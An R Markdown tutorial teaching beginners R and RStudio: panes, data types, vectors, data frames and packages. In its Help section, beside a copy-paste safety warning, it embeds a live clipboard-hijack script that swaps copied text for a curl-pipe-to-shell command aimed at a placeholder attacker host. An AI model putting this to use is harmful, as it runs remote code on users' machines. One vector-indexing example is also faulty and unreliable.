 ```yaml
---
title: "Introduction to R and RStudio"
date: "`r Sys.Date()`"
author:
  - name: "BiGR: Bioinformatics core facility of Gustave Roussy"
    email: "bigr@gustaveroussy.fr"
output:
  rmdformatsbigr::readthebigrdoc:  # if you'd like to have a nice theme
    code_folding: show
    thumbnails: false
    lightbox: true
    highlight: true
    fig_caption: false

# install.packages("remotes")
# install.packages("git2r")
# remotes::install_git("https://gitlab.com/bioinfo_gustaveroussy/bigr/rmdformatsbigr.git",
#                      credentials=git2r::cred_user_pass("your_login", "your_password"))
---
```



```r
# options(width = 60);
knitr::opts_chunk$set(
  echo = TRUE,        # Print the code
  eval = FALSE,       # Do not run command lines
  message = FALSE,    # Print messages
  prompt = FALSE,     # Do not display prompt
  comment = NA,       # No comments on this section
  warning = TRUE      # Display warnings
);

#base::library(package = "dplyr")
```

<style type="text/css">
details:hover { cursor: pointer,
}
summary {
  display: list-item;
}
</style>

# Introduction

## General information
A programming language is a communication code between a human and a machine (usually a computer).
This allows you to give instructions to the computer. And the computer is very wise, it stupidly carries out each instruction that we give it.  
There is a huge number of [programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages) and they evolve.

R is a programming language that allows you to:

1. manipulate data: import, transform, export, etc.
2. carry out more or less complex statistical analyses: description, exploration,
modelization...
3. create (pretty) figures
4. and much more !

Features:

* available on mainstream OS'es (Windows, Mac and Linux).
* free and open source (GNU).
* large user community / online help.
* numerous additional packages for any purpose.

History:

* **1993/08** : First official release of R as a _binary_.
  * Written by _**R**oss Ihaka_ and _**R**obert Gentleman_, simply aimed at being a programming language to teach introductory statistics at the University of Auckland.
  * Inspired by (and partially compatible with) the pre-existing, **S** programming language (BELL Labs, TIBCO Software).
* **1997/04** : foundation of the Comprehensive R Archive Network, as the R central packages repository.
* **1997/12** : release of R v0.6.0 _sources_ under the GNU licence.
* **2000/02** : release of R v1.0.0.
* **2024/04** : realase of R v4.4.0.

<details>
<summary>Details about implementations of R language</summary>
_WARNING_ : R is not R ! The _R software_ you will use is **NOT** the _R language_ itself ! It is an **implementation** of the language, and [other implementations](https://learn.saylor.org/mod/book/view.php?id=58417&chapterid=44968) co-exist(ed). By example : Revolution Analytics (by Microsoft, now [defunct](https://techcommunity.microsoft.com/t5/azure-sql-blog/microsoft-r-application-network-retirement/ba-p/3707161)), [Renjin](https://www.renjin.org/) (active, Java), [FastR](https://github.com/oracle/fastr) (active, Java), [Riposte](https://github.com/jtalbot/riposte) (defunct), [CXXR](https://www.cs.kent.ac.uk/projects/cxxr/) (defunct, C++) ...
<\details>

R versus Excel:

Fun fact (more _awkward_ than fun, actually) about why R is better than excel:  
_In 2020, ["Covid : UK loses thousands of cases due to ... a saturated MS Excel file"](https://www.lesechos.fr/monde/europe/covid-le-royaume-uni-passe-a-cote-de-milliers-de-cas-a-cause-dun-fichier-excel-arrive-a-saturation-1251904)  _

More information comparing R and Excel [here](https://fantasyfootballanalytics.net/2014/01/why-r-is-better-than-excel.html).

## The RGui

After installing R, you can launch it by double-clicking on the R icon <img src="images/logo_R.png" alt="logo_R.png" width="50"/>

<img src="images/RGui.jpg" alt="RGui" width="600"/>

An interface is software placed between you and the computer that allows you to communicate more easily with the computer.

As you can see, the default R interface (**RGui** console : GUI stands for _**G**raphical **U**ser **I**nterface_) is quite abrupt and bleak :S ...

As such, it is warmly recommended to use additional software that will function as a graphical interface between you and R. This interface is a kind of shell that makes R work in the background.
Several graphical interfaces have been developed, but the most used and practical is **[RStudio-desktop](https://posit.co/download/rstudio-desktop/)**.

# Rstudio

<img src="images/logo_RStudio.png" alt="logo_Rstudio" width="200"/>

## First sight

![rstudio](images/Blank_rstudio.png)
RStudio displays 4 large panes by default. Their position may be changed based on your version and preference, but here are the default ones :

```r
knitr::kable(
  x = data.frame(
    LEFT=c("Script pane", "Console pane"), 
    RIGHT=c("Environment/History pane", "Help/Plots/Files"),
    row.names = c("UPPER", "LOWER")
  ), 
  caption = "Pane names and postions"
)
```

> <span style="color:green"> NOTE : your four panes may be blank while most of mines are filled with text in the illustration, do not panic ! We'll come on that later.</span>

## The console pane (lower left)

![console_pane_image](images/td_consolePane.png)

This is a simple interactive R console, like in the RGui (see previous section), that allows us to communicate with the computer.

> <span style="color:#CD853F"> WARNING: Here is an example provided by the bioinformatics platform <B>BiGR</B>. Your local RStudio might differ: the version of R, the list of available packages, etc. On <B>your</B> local machine, RStudio console will match with the RGui. </span>

Here, I gave an instruction to R, and he told me that he was unable to execute it with an "Error" message. We communicate.

Let's try to enter the [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) command :

```r
print("Hello World")
```

Here, we just used a _function_ (which is an instruction), called [`print`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print). This function attempts to display on screen anything provided between parenthesis `(` and `)`. In our example, we provided the character string `"Hello World"` (thus, we used quotes), and the function `print` successfully printed it on screen !  
The information that is put between the parentheses of a function is called arguments.

Now, click on **Session** -> **Save Workspace As...** and name it as you wish (I named mine _"my_session.RData"_). This will save your current _work space_ (the _environment_ in which you are working : the custom objects and functions loaded into memory).
What happened in the console pane? You nailed it! A command has been automatically written. I named the file "my_session.RData", so for me, it is:

```r
save.image("my_session.RData")
```

This is one of the many ways RStudio helps you in your work, by simplifying (mainly using clicks and buttons) some tedious, regular parts.

> As a general recommendation, you should get to save your work space after any important step in your code. When you may need help, whether on a function error, a script result or anything alike, you would be able to share such save to your favorite R-developer next door. This file contains everything you did in your current session.

Note that you can create your own functions in the future.

A package is a collection of R functions that are not natively present in R.

> <span style="color:green"> NOTE: The Rstudio console allows **auto-completion** and **code suggestion** : when one uses the [TAB] key after writing the first few characters of a code function/variable, the console proposes possible names from a dictonary that fits your installation.
Any reputable bioinformatician uses auto-completion, but shhh ! It's one of our many secrets ! </span>

## The environment/history pane (upper right)

This pane has three main tabs: 'Environment', 'History' and 'Connections' (the 'Tutorial' tab was recently added, and a 'Git' tab may appear when one uses code in a version-controlled environment).

![envhit_pane](images/td_envHistoryPane.png)

### Environment

'Environment' displays the list of every single variable, custom function, object or data loaded in R. This includes only what you defined by yourself and does not include environment variables nor base nor package-loaded functions.

A variable allows you to store information in memory, by giving it a name (like a box containing an information, and a label).
An object is a more complexe variable that allows you to save several information inside one name (see R - Basics section).

Example : in your console pane, enter the following command:

```r
my_var <- 0  # May also be written my_var = 0
```

What happened in the 'Environment' pane ?

You nailed it : a new **my_var** variable is now available in your environment !

<img src="images/environment_myvar_eq_0.png" alt="env_my_var" width="600"/>

When a more complex object is declared in your work space, some general information may be displayed, too. By example :

```r
df <- data.frame("a"=c(1, 3), "b"=c(2, 4))
```

You can observe this _dataframe_ (something like a table, we'll see it later).

Click on its name to get a _preview_ of its contained data. Then, click on the light-blue downwards arrow to have a deeper insight of its content:

<img src="images/dataframe_expanded_environment.png" alt="df_expanded_env" width="600"/>

Now click on **Session** -> **Clear Work space** ...

... and watch how your objects/variables disappeared !

This action **cannot be undone** ! While it is useful to clear one's work space from time to time (in order to avoid name space collisions, release a bit of used RAM, etc), it is way better to **save your work space** before.

_One again, using this "clickable" way is just an assist from RStudio : there are specific (written) commands to remove objects, with more manual control._

### History
<img src="images/td_goToHistory.png" alt="goto_history" width="600"/>

<img src="images/history_theme.png" alt="history_theme" width="600"/>

This tab is quite mandatory when coding and testing : while you test and search in the console, the history keeps a track of each command line you typed. This will definitely help you to build your scripts, to pass your command lines to coworkers, try and track code variations, and to revert possible unfortunate errors.

Each history is related to a session. You may see many commands in your history, even some you never entered manually : when a RStudio "assist" menu/button is used (ex : knitting commands, display commands, help commands, etc...), in most case it auto-runs a R command that will be stored in the history as well as the one you manually entered.

Please note that your history has a limit (512 entries by default) and only saves the latest command lines. The default value can be changed (but it's something to reserve to more advanced users)

## The help/plots/packages/files pane (lower right)

This pane has four main tabs: 'Files', 'Plots', 'Packages' and 'Help' (the 'Viewer' tab is rarely used, and 'Presentation' was added very recently).

![helpFile_pane](images/td_helpFilePane.png)

### Help

This is maybe the **most important/useful** pane of your R Studio, on a user POV. THIS is the difference between R Studio and another code editor. Search for any function **here, locally** and not on the internet. This pane shows you the available help for **YOUR** version of R, **YOUR** version of a given package.

Effectively, a published function for which a help page does exist in a version of R or one of its packages, still can evolve in time, depending on its author. Thus, some parameters can be added, removed, renamed, and/or default values changed. Consequently, the help from a remote source (internet) may be inadequate for your current, installed version !

When copy-pasting commands from a remote source, please assure yourself the source is clean (ie, nothing harmful for your system) and compatible with your installed version (this is a major source of error).

<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\n'); e.preventDefault(); });
</script>

> <span style="color:#CD853F">Never ever copy code from the internet right to your console Why? Example: https://www.wizer-training.com/blog/copy-paste </span>

### Files

Just like any system file explorer, we can move across directories, create folders and files, delete them, etc... from within Rstudio.

Initially, this file explorer is set at your **current working position**. This means that when interacting with directories or files without expressing an _absolute path_, Rstudio will consider directories and files that are stored **where you are** in this panel

> NOTE : this is not a theoretical representation : performing modifications here will modify the file structure on your drive !

#### Create a directory

Here, we will create a new directory, using two methods :

1. With the GUI

![create_working_dir_rstudio](images/create_working_dir_rstudio.png)

2. With a command line :

Use the [`dir.create()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files2) function :

```r
dir.create("Intro_R")
```

#### Change working directory

One can change one's working directory :

1. With the GUI :

![setwd](images/clange_wd_rstudio.png)

2. With a command :

Use [`setwd()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/getwd):

```r
setwd("Intro_R")
```

#### Delete files

You can delete files:

1. With the GUI

<img src="images/delete_files_from_rstudio.png" alt="download" width="500"/>

2. With a command

Use the [`file.remove()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files) function:

```r
file.remove("annotation.csv")
file.remove("expression.txt")
```

> NOTE: There is nothing such as a "Recycle bin" here ! Deleted files or directories are wiped !

### Packages

Here are listed all _locally installed_ packages (not _available_ packages), with a description and a version number.

<img src="images/td_packages_pane.png" alt="package_pane" width="500"/>

You will get more information about packages in an upcoming subsection.

### Plots

If you work with R scripts that performs plots, the generated graphs will be displayed here !

These can sometimes be _interactive_ plots (ability to zoom, scroll, etc...), depending on the functions used.

## The script pane (upper left)

![script_pane](images/td_scriptPane.png)

This is where you will spend most of your time when writing your R scripts (next to the 'Help' pane !).  
A script is a text file, where you save your command line to use, in the order of using.  
This pane also accepts other languages (e.g. _bash_, _python_, ...) or different R flavors (R markdown, by example), but R Studio shines for its R integration, oviously.  

> <b>Please, please !</b> Write your commands in the 'Script' pane, <b>then</b> execute them (hitting [CTRL] + [Enter] with the cursor placed on the command to run), rather than directly writing them in the console ! This has only advantages : you can track, save, share your work, test variations, without relying on your (spoiler : imperfect) memory, ...

The default file extension for a R script saved is `.R` or `.r` (or `.RMD`, `.Rmd` for Rmarkdown scripts), for example `my_script.R`.

![script_pane](images/rscript_pane.png)

> NOTE : The file name here appears in red and ending with a star '*' because some content was written in the script but not saved on disk.

## TLDR – Too Long Didn't Read

Graphic interface presentation :

1. **Write command lines in the **'Script'** pane (upper left)
2. **Execute** command lines by hitting [CTRL] + [Enter] from the script pane, then observe their output in the 'Console' / 'Plots' panes.
3. Take a look at your **environment** and **history** in the upper right pane
4. **Search** for **help** in the lower right pane.

# R – Basics

## Variables and types

**Remember** : a **variable** is a name given to any value of any type stored in memory.

Here, we will describe basic types.  
A type is a data type.  It can be an integer, a decimal number, a string, an array, etc.

### Number

By example, `3`, the number three, exists in R and is understood as it by R. You can store this value in a variable using the arrow _assignment_ operator `<-`:

```r
three <- 3
```

In the above code, the number 3 is stored in a variable called "three" (it could be any other name, as long as it avoids special characters).

You can do this in R with quite anything. Literally anything. Whole files, pipelines, images, anything.

```r
# The example below is a very good example of
# how to never ever name a variable:
シ <- "happy"
```

Maths in R works the same as your regular calculator :

```r
3 + three # Add
1 - 2 # Subtract
4 / 2 # Divide
3 * 4 # Multiply
7 %/% 2 # Floor division
```

> <span style="color:green"> Info: `#` is the way to write a comment into your script. Any instruction after `#`, and as long as no line return is invoked, will be ignored by the R console. For example in `3 + three # Add`, `3 + three` will be executed, but `# Add` will not.
A good coder uses comments, and a lot of them, and relevant ones, to explain the calculation one made ! </span>

> NOTE : Here, we simplified how R is actually handling numbers. There are two main subtypes in numbers : 1) Integers 2) Numerics (called "floats" in most other languages).

### Character

Characters correspond to letters and letter chains, and are delimited with quotes : be it single `'` or double `"` (as long as the same type is uesd in a pair : on cannot start the definition of a character with a single quote and end it with a double one !) :

```r
four <- "4"
five <- '5'
```

Mathematics do not work with characters at all ... Try the following:

```r
"4" + 1
four + 1
```
<details>
<summary>Computer answer</summary>

> Error in "4" + 1 : non-numeric argument to binary operator

<\details>

You can try to turn characters in numbers with the function: [`as.numeric()`](https://www.rdocumentation.org/packages/h2o/versions/3.38.0.1/topics/as.numeric):

```r
as.numeric("4") + 1
as.numeric(four) + 1
```

### Function

A _function_ is a R piece of code that can perform more complex work. It is called using a command name, that is then followed by parentheses `(` and `)`. Between these parentheses, we enter _arguments_ that are expected by the function.

Use the help pane to get information about the names of arguments expected and/or understood by a given function, and the expected type of their value.

As previously described, you can store any of the previously typed commands into a variable:

```r
five <- as.numeric("4") + 1
print(five)
```

> <span style="color:green"> Please! Please! Give your variable explanatory names, so that its content is understandable by humans. I would be pissed off seeing any of you calling their variable "a", "b", "xyz, "my_awsome_var", "dunno_what_it_is", "thing1", "thing2", etc ... </span>

```r
options(digits = 7)
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```


**Question** :

I have two numbers stored in these variables :

* `mysterious_number_7`
* `suspicious_number_7`

When I apply the [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) function on them, it returns in both cases `7`.

They are both numeric.

However, _they are not equal ..._

Why ?

<details>
<summary>Code to check question facts</summary>
```r
# Show the value of the variable mysterious_number_7
print(mysterious_number_7)

# Show the value of the number suspicious_number_7
print(suspicious_number_7)

# Check that mysterious_number_7 is a number
is.numeric(mysterious_number_7)

# Check that suspicious_number_7 is a number
is.numeric(suspicious_number_7)

# Check that values of mysterious_number_7 and suspicious_number_7 are equal
mysterious_number_7 == suspicious_number_7

# Check that values of mysterious_number_7 and suspicious_number_7 are identical
identical(mysterious_number_7, suspicious_number_7)
```

We will talk about differences between ***equality*** and ***identity*** later.

</details>

<details>

<summary>Answer</summary>

This is due to the number of digits displayed in R. You are very likely to have issues with that in the future, as all (bio)informatician around the world.

```r
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```

You can change the number of displayed digits with the function [`options()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options):

```r
options(digits=8) #allows you to print up to 8 digits
print(mysterious_number_7)
```

</details>
<br>

### Logical

Aside from characters and numbers, there is another very important type in R (and computer science in general): Logicals, which corresponds to the _boolean_ types. There are two logicals : `TRUE` and `FALSE`.

```r
3 > 4
5 < 10
5 == 10
```

## Data structures

Until now, we have seen simple information stored into a variable. But we can create more complex structures in order to store multiple information into a single variable.

![data_structure](images/data_structure.png)

> NOTE : In your usage of R, you may cross _R objects_. These correspond to a special type of complex objects, that can store mutiple data of different types, but also obey rules to allow users to interact with (by example, _getters_ and _setters_, to get or set information from and to it)

### Vector

You can make vectors and tables in R. Don't panic, there will be no maths in this course : vectors or a one-dimensional _series_ of values of the same type.

In R, vectors can be created with the [`c()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/c) function ("c" for "concatenate") :

```r
one2twenty <- c("1", "2", "3", "4", "10", "20")
print(one2twenty)
```

One can **check** if a variable is a vector :

```r
is.vector(one2twenty)
```

As a uni-dimensional object, one can get its **length** :

```r
length(one2twenty)
```

One can **select an element** of the vector using squared brackets `[` and `]` holding the desired element index :

```r
one2twenty[1] # select the first element
```

> NOTE : R index starts at the value 1 (many other languages start at 0)

```r
one2twenty[5] # select the fifth element
```

One can **select multiple elements** of a vector with a ranged index  `:`:

```r
one2twenty[2:4] # select from second to fourth element
```

One can combine both ways :

```r
one2twenty[1,3:5] # select the first and third to fifth elements
```

*Question 1*: Is there a difference between these two vectors ?

```r
c_vector <- c("1", "2", "3")
n_vector <- c( 1,   2,   3 )
```

<details>

<summary>Answer</summary>

There is a difference indeed: c_vector contains characters, n_vector contains numerics.

```r
print(c_vector)
print(n_vector)
print(is.numeric(c_vector))
print(is.numeric(n_vector))
identical(c_vector, n_vector)
```

You can always use the [`identical()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/identical) function to test identity with robustness and exactitude.

You may have learned about the operator `==` for equality. But this is not perfect, look at our example:

```r
c_vector == n_vector
```

The operator `==` is not aware of data types.

Another example, mixing numeric and booleans:

```r
1 == TRUE
identical(1, TRUE)
```

In computer sciences, there is a historical reason why booleans and integers are mixed.

<details>
<summary>More information about that</summary>
This is linked to the history of computing languages.
Prior to the introduction of an actual boolean type (`TRUE` and `FALSE`), the integers `0` and `1` were the official representation for true and false values, similar to what is used in C-89 (the first standardized version of the C programming language, in 1989).  
To avoid unnecessarily breaking imperfect but working code, the new boolean type needed to work just like 0s and 1s. This goes beyond merely truth value, but all integral operations. No one would recommend using a boolean results in a numeric context, nor would most people recommend testing equality to determine truth value, as well as no one wanted to find out the hard way just how much existing code is that way. Thus, the decision to make True and False mimics for 1 and 0, respectively. This is merely a historical artifact of the linguistic evolution.
</details>

</details>
<br>
*Question 2*: Can I include both text and numbers in a vector ?

```r
mixed_vector <- c(1, "2", 3)
```

<details>

<summary>Answer</summary>

YES and NO. The example shows that we technically can, we end with an unexpected results : Here, all our values have been turned into characters, as we can not mix types in a vector. Either all its content is made of number or all its content is made of characters.

```r
print(mixed_vector)
print(is.numeric(mixed_vector))
print(is.character(mixed_vector))
```

</details>

<br>

*Question 3*: How to create a histogram from a vector ?

<details>
<summary>Help</summary>
A simple way to visualize your data is to use a graph. The [`hist()`](https://www.rdocumentation.org/packages/graphics/versions/3.6.2/topics/hist) function may help you (of course, use the _Help pane_!!).
</details>

<details>
<summary>Answer</summary>

```r
hist(c_vector)
```
> <span style="color:#CD853F">Error in hist.default(c_vector) : ‘x’ must be numeric </span>

Errr... Why is this command not working ?

The error says : “‘x’ must be numeric”. The function only accepts a vector made of **numeric** values.

```r
hist(n_vector) # worked perfectly !
```

</details>
<br>

### Data Frame

In R, a table is stored as a **data.frame**. A way to create it from scratch using the [`data.frame()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/data.frame) function :

```r
one2three4 <- data.frame(col1 = c(1, 3), col2 = c(2, 4))
print(one2three4)
```

By default, for dataframes, R accepts names for columns and rows.
You can rename columns and row names with the [`colnames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) and [`rownames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) functions, respectively.

```r
colnames(one2three4) <- c("Col_1_3", "Col_2_4")
rownames(one2three4) <- c("Row_1_2", "Row_3_4")
print(one2three4)
```

You can access a column and a line in the data frame using an index for each dimension into squared brackets `[` and `]`. 

R expects first an index for rows, then columns : `data_frame[row_index, column_index]`. You can either use the name of row(s)/column(s) or their position index.

If one wants all values for one of the dimensions, one should just leave the bracket part empty.

```r
# Select a row by its name
print(one2three4["Row_1_2", ])
# Select a row by its index
print(one2three4[1, ])
# Select a column by its name
print(one2three4[, "Col_1_3"])
# Select a column by its index
print(one2three4[, 1])
# Select a cell in the table
print(one2three4["Row_1_2", "Col_1_3"])
# Select the first two rows and the first column in the table
print(one2three4[1:2, 1])
```

> <span style="color:green"> If you like maths, you will recall the `[row, column]` order. If you're not familiar with that, you probably will do like 99% of all software engineers : write in the wrong `[column, row]` order in your first interactions with R. Subsequently, you will raise an error. Trust me. 99%, easy. And just remember than an error is never an ending point in informatics.</span>

*Question 1* : Can I mix characters and numbers in a data frame **row** ?

<details>

<summary>Answer</summary>

Indeed, it is possible !

```r
mixed_data_frame <- data.frame(
  "Character_Column" = c("a", "b", "c"),
  "Number_Column" = c(4, 5, 6)
)
print(mixed_data_frame)
```

The [`str()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/str) function can be used to look at the types of each elements in an object.

```r
str(mixed_data_frame)
str(one2three4)
```

</details>
<br>

*Question 2* : Can I mix characters and numbers in a data frame **column** ?

<details>

<summary>Answer</summary>

Unfortunatelu, no, you can't :

```r
mixed_data_frame <- data.frame(
  "Mixed_letters" = c(1, "b", "c"),
  "Mixed_numbers" = c(4, "5", 6)
)
print(mixed_data_frame)
str(mixed_data_frame)
```

All this is because the data.frame is a special sort of bidimensional object in R _structured by column_, where each column can store a different type than the other.

</details>
<br>

### Read a table as data frame

Exercise: Use the _Help pane_ to find how to use the [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) function.

You can find the example_table.csv input file [here](https://github.com/gustaveroussy/training_bigr/blob/main/Introduction_R_RStudio/For_Students/example_table.csv). Download it by clicking on the **[Download raw file]** button.

Use the [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) function to:

1. open the _file_ `example_table.csv`.
2. this table has a _header_ (`TRUE`). A header is a title line that defines column names. 
3. this table has _row names_ in the column called "Gene_id".
4. as a CSV file, its field separator is a comma _,_.

Let all other parameters to their default values.

Save the opened table in a _variable_ called `example_table`.

<details>

<summary>Answer</summary>

```r
example_table <- read.csv(file="example_table.csv", 
                          header=TRUE, 
                          row.names="Gene_id",
                          sep = ","
                 )
```

</details>

Now let us explore this dataset.

We can click on the 'Environment' pane:

![see_in_the_env_pane](images/rstudio_exmaple_table_environment.png)

And if you click on it :

![open_example_table](images/rstudio_example_table_open.png)

Be careful ! Visualizing a large table may hang your session (by consuming to much RAM).

Alternatively, we can use the [`head()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/head) function, which prints the first lines of a table:

```r
head(example_table)
```

The [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) function describes the dataset _per sample_ (per column) :

```r
summary(example_table)
```

Have a look at the [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) of the dataset _per gene_, using the [`t()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/t) function to _transpose_:

```r
head(t(example_table))
summary(t(example_table))
```

<details>

<summary>To go further</summary>

```r
# number of columns
ncol(example_table)
# number of rows
nrow(example_table)
# get dimensions (number of rows and number of columns)
dim(example_table)
# type of each element
str(example_table)

```

</details>


## TLDR – Too Long Didn't Read !

```r
# Declare a variable, and store a value inside :
three <- 3

# Basic maths operators: + - / * work as intended:
six <- 3 + 3

# Quotes are used to delimit characters:
seven <- "7"

# You cannot perform maths on characters :
"7" + 8 # raises an error
seven + 8 # also raises an error
six + 8 # works fine

# R makes the most to help you. You can change the type of your variable with:
as.numeric("4") # the character '4' becomes the number 4
as.character(10) # the number 10 becomes the character 10

# You can compare values, returns a logical :
six < seven
six + 1 >= seven
identical(example_table, mixed_data_frame)


# You can load and save a data.frame as/from a text file :
read.table(file = ..., sep = ..., header = TRUE)
write.table(x = ..., file = ...)

# Create a table with:
my_table <- data.frame(...)

# Create a vector with:
my_vector <- c(...)

# You can read the first lines of a data.frame :
head(example_table)

# Search for help in the 'Help' pane or with:
help(...)
```


# R – Packages

## What are modules and packages

Modules and package are considered to be the same thing in this lesson. The difference is technical and does not relate to our scope.

Most of the work you are likely to do with R will require one or multiple additional packages. A package is a list of functions, pipelines, or datasets shipped under a given name. In general, a package groups together functions linked to an analysis scheme or theme towards a defined aim.
Every single function you use through R comes from a package or another. Those used till now in this lesson come mostly from the 'base' package (R is shipped with a short list of mandatory packages)

Invoke the help page for the `print` function, and read the very first line of the 'print' pane :

```r
help(print)
```

It reads: `print {base}` : The function `print` comes from the package `base`.

```r
# Call the function "print", with the argument "You're the best!"
print("You're the best!")
```

> <span style="color:#CD853F"> WARNING : Sometimes, two packages may share the same name for different functions ! They are most certainly not doing the exact same thing. IMHO, it is a good habbit to ALWAYS call a function while disambiguating the package name, using thins syntax : `package::function`. Writing `base::print()` is better, clearer than using `print()` alone.</span>

```r
# Call the function "help" ***from the package utils***, with the argument "example_table", and show only the first line
base::print("You're the best!")
```

## Install a package

Your work will probably require the installation of a new package from an external source.

R can install packages from multiple different sources and repositories, but by default, it installs from the CRAN repository.

Use [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) to install a package.

```r
# Install a package with the following function
install.packages("dplyr")
```

This will raise a prompt asking for simple questions : from which mirror site to download (choose somewhere in France), whether to update other packages or not, etc.

Do not be afraid by the large amount of things prompted in the console and let R do the trick. These are messages from the different steps required by to safely install a package and test if it's perfectly installed and usable. It may also take time, especially when the requested package to install requires other packages (dependencies), that may themselves require other packages (etc...). Almost any code relies on another code !

Alternatively, you can click on [Tool] -> [Install Packages] in RStudio; or click on the [install] button in the 'Packages' tab of the 'File/Help' pane.

You can list installed packages with [`installed.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/installed.packages), and find for packages that can be updated with [`old.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

These packages can be updated with [`update.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/update.packages).

While the [`install.packages()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/install.packages) function searches packages in the common R package list, many bioinformatics-related packages are available on other shared packages warehouses. Just like your AppStore and PlayStore do not have the same applications on your cellular, R has multiple sources for its packages. As someone invested in biology who wants to use R, in addition to the default CRAN repository, you need to know another one : [Bioconductor](https://bioconductor.org/).

![bioconductor](images/bioconductor.png)

You can install a package from Bioconductor with the [`BiocManager::install()`](https://www.rdocumentation.org/packages/BiocManager/versions/1.30.18) function :

```r
# Install BiocManager, a package to use Bioconductor, from CRAN
install.packages("BiocManager")

# Install a package from Bioconductor
BiocManager::install("DESeq2")
```

Hopefully, BioConductor knows that the CRAN exists, so when one requests the installation of a BioConductor package that depends on CRAN packages, the installer will get them without any human intervention.


## Use a package

An _installed_ package is not actually _active_ by default (you can't use its functions just because it is installed). When you want to use something from an installed package, you need to _invoke_ it first.

You can load a package with the [`library()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/library) function :

```r
library(package="dplyr") # or just library(dplyr)
```

If the requested package is not locally installed, this will raise an error.

If there is no error message, it implies that the package is loaded.

When a package is loaded, all its content (functions, objects, datasets, ...) are accessible and loaded into RAM.


> NOTE 1 : when a package is loaded, its box in the 'Packages' pane is ticked.

> NOTE 2 : There is an exception to the package invocation requirement : when one calls a function with disambiguation syntax `package::function()`, only the requested function is loaded into memory for the duration of its exectution, then detached.

Then you can try :

```r
help(topic="arrange", package="dplyr")
```

And search for help about how to run your command.

Alternatively, there is a more complete help page at the package, reached with the [`browseVignettes()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/browseVignettes) function. It opens in your browser automatically (or in the Rstudio browser, depending on your configuration), and if you click on "HTML", you get some information about the package like functions, tutorials, etc.

> NOTE : However, such a vignette is facultative in a R package : its presence only depends on the will of the package coder(s).

```r
browseVignettes(package="dplyr")
```

## TLDR – Too Long Didn't Read

```r
# Install a CRAN package
install.packages("BiocManager")

# Load a package
library("BiocManager")

# Install a BioConductor package
BiocManager::install("DESeq2")

# Get help
browseVignettes(package="DESeq2")
```

# Tips for your project

## Write a good script

Good practices (for your sake, and the one of any future reader of your code) :

 - write a documentation (a header at the start of the script which explains the purpose of the script, an explanation of the parameters you setup, and the analysis steps, for example)
 - use comments (uninterpreted line, starting with `#`)
 - use code indentation (spaces before code line that shows their hierarchical structure)
 - use humanly-understandable variable names
 - do not nest too many functions inside each other, this will soon be a mess
 
```r
### BAD ; difficult to understand
    print(rowMeans(data.frame(c(9, 14, 17, 9, 13),
c(11, 10, 20, 7, 17),c(15, 8,      19, 10, 15)   ))       )

### GOOD : easy to understand
## Goal: this script computes the mean of the expression of our 3 samples for each gene:
#create a dataframe with the genes expression of our 3 samples:
example_data_frame <- data.frame("Expression_Sample_1" = c(9, 14, 17, 9, 13),
                                 "Expression_Sample_2" = c(11, 10, 20, 7, 17),
                                 "Expression_Sample_3" = c(15, 8, 19, 10, 15)
                      )
#add corresponding genes names into row names:
rownames(example_data_frame) <- c("Caml", "Scamp5", "Dgki", "Mas1", "Apba1")
#compute the mean of the expression for each gene:
mean_expression_Samples123 <- rowMeans(example_data_frame)
#print the result:
print(mean_expression_Samples123)
```
 
 - save your script frequently, as well as your working environment
 - save the versions of the loaded packages at the end of your analysis (you can print loaded packages thanks to the [`sessionInfo()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/sessionInfo) function and save the result into an on-disk file thanks to the [`capture.output()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/capture.output)) function.
 
```r
sessionInfo() #displays name and version of loaded packages in the console
```
```r
utils::capture.output(sessionInfo(), file = "sessionInfo.txt") #save them in a file
```

## Load and save R objects

While working on your projects, you will process datasets in R. The results of these analyses will be stored in variables. All these are stored _in memory_, which is volatile. This means, when you close RStudio, any unsaved object will be lost.

